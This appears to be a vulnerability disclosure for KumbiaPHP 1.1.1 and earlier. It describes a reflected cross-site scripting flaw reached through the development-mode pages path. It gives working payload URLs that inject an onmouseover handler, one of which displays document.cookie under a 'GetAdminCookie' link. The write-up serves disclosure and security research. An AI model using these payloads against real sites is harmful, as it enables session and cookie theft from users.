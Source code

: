 # KumbiaPHP

## KumbiaPHP 1.1.1

* description : Allow attack to inject arbitrary malicious HTML or Javascripts code in user web browser
* Affected version : All <= 1.1.1 

### Information

To make this POC, i just install `KumbiaPHP`  by `git clone` then i used composer and i runned it into WAMP Server 

* Vulnerability Type : Cross Site Scripting (XSS Reflected)


### POC

Make sure you are in `Development` mode,
to check it it simple;  try to go there : `http://kumbiaphp/public/pages/kumbia/status/`
replace status by `*` and u'll watch stacktrace, then replace * by payload this like `/<a%20onmouseover="alert('got%20it')"/>jenaye/</a/>`

so the final url look like this `http://kumbiaphp/public/pages/kumbia//%3Ca%20onmouseover=%22alert((document.cookie)%22/%3EGetAdminCookie/%3C/a/%3E/`  

<img width="1280" alt="poc" src="https://raw.githubusercontent.com/jenaye/KumbiaPHP-/master/poc.png">

